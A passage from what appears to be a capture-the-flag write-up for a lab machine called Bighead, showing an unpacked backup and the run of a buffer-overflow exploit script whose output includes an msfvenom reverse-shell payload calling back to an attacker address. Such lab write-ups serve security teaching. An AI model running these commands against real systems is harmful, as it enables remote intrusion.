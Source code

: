 

Unzip with `7z` and password "bighead", and it works. Now I have the
same config files, but also an exe and a dll:



    root@kali# find BHWS_Backup/ -type f
    BHWS_Backup/bHeadSvr.dll
    BHWS_Backup/conf/uwsgi_params
    BHWS_Backup/conf/nginx.conf
    BHWS_Backup/conf/win-utf
    BHWS_Backup/conf/scgi_params
    BHWS_Backup/conf/koi-win
    BHWS_Backup/conf/koi-utf
    BHWS_Backup/conf/mime.types
    BHWS_Backup/conf/fastcgi_params
    BHWS_Backup/conf/fastcgi.conf
    BHWS_Backup/BigheadWebSvr.exe



### Buffer Overflow

Analysis will reveal that there's a buffer overflow in the url handler
for the web server that I can use to get execution. I'll explore that
and write an exploit in a [companion
post](/htb-bighead-bof.md). By the end of that post, I have
a script I can run to get a shell.

I can run my script:



    root@kali# python pwn_bighead.py dev.bighead.htb 80 10.10.14.14 443
    [*] Generating shellcode:
        msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 EXIT_FUNC=THREAD -a x86 --platform windows -b "\x00\x0a\x0d" -f python -v shellcode -o sc.py
    [+] Shellcode generated successfully
    [*] Sending payload 5 times
    [+] Opening connection to dev.bighead.htb on port 80: Done
    [*] Closed connection to dev.bighead.htb port 80
    [+] Opening connection to dev.bighead.htb on port 80: Done
    [*] Closed connection to dev.bighead.htb port 80
    [+] Opening connection to dev.bighead.htb on port 80: Done
    [*] Closed connection to dev.bighead.htb port 80
    [+] Opening connection to dev.bighead.htb on port 80: Done
    [*] Closed connection to dev.bighead.htb port 80
    [+] Opening connection to dev.bighead.htb on port 80: Done
    [*] Closed connection to dev.bighead.htb port 80
    [+] Payload sent.
    [*] Sleeping 1 second.
    [*] Sending overflow + egghunter.
    [*] Expect callback in 0-15 minutes to 10.10.14.14:443.
    [+] Opening connection to dev.bighead.htb on port 80: Done
    [*] Closed connection to dev.bighead.htb port 80

